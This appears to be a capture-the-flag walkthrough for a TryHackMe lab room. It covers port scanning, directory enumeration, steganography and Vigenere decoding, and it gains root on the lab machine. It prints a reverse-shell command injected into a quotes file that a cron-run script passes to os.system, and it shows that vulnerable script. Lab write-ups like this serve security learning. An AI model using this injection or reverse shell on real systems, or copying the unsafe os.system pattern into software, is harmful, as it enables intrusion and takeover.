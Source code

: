 ```yaml
---

title: Walkthrough - Break Out the Cage
published: true
---
```


Python, Steg, Rot13, Mail. Help Cage bring back his acting career and investigate the nefarious goings on of his agent!

[https://tryhackme.com/room/breakoutthecage1](https://tryhackme.com/room/breakoutthecage1)

* * *

## Notes

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Nicholas Cage Stories
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

In the FTP server we find ``dad_tasks`` which contains a base64 encoding. decoded it doesnt mean much to us yet, saving this here for later.

```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl
```

- ``gobuster dir -u http://10.10.107.176/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 --no-error``

```
/images               (Status: 301) [Size: 315] [--> http://10.10.107.176/images/]
/html                 (Status: 301) [Size: 313] [--> http://10.10.107.176/html/]  
/scripts              (Status: 301) [Size: 316] [--> http://10.10.107.176/scripts/]
/contracts            (Status: 301) [Size: 318] [--> http://10.10.107.176/contracts/]
/auditions            (Status: 301) [Size: 318] [--> http://10.10.107.176/auditions/]
```

- ``wget -nd -r -l 2 -A jpg,jpeg,png,gif http://10.10.231.206/images``

Not much in all os these directories i tried stegseek on all the images but cant find a password, and still unable to crack the dad_tasts, but there is a mp3 file to look at in `/auditions/`.

![0xskar](/assets/break-out-the-cage01.png)

After messing with audacity settings it reveals a hidden message "namelesstwo". This is the key to the vigenere cipher.

```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

* * * 

## What is Weston's password?

- weston:Mydadisghostrideraintthatcoolnocausehesonfirejokes

* * * 

## What's the user flag?

```
find / -type f -group 1000 2>/dev/null
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```

```
weston@national-treasure:/$ cat /opt/.dads_scripts/spread_the_quotes.py 
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

```
weston@national-treasure:/tmp$ sudo -l
[sudo] password for weston: 
Matching Defaults entries for weston on national-treasure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User weston may run the following commands on national-treasure:
    (root) /usr/bin/bees
```

Not able to get much more to work here, looking at ``spread_the_quotes.py`` it is being run by cage, but we dont have permissions to write to it, however we do have permissions to write to ``/opt/.dads_scripts/.files/.quotes``

- ``echo "quote;sh -i >& /dev/tcp/10.2.127.225/6666 0>&1" > /opt/.dads_scripts/.files/.quotes``
- now that we are connected we can find the user flag in the home directory. 

* * * 

## What's the root flag?

- Looking at the backup emails there is a code "haiinspsyanileph" and a hint "face"?
- This is another Vigenere Cipher the key is face
- ``cageisnotalegend``
- we can ``su`` to root. and find the flag inside roots email backups

* * * 

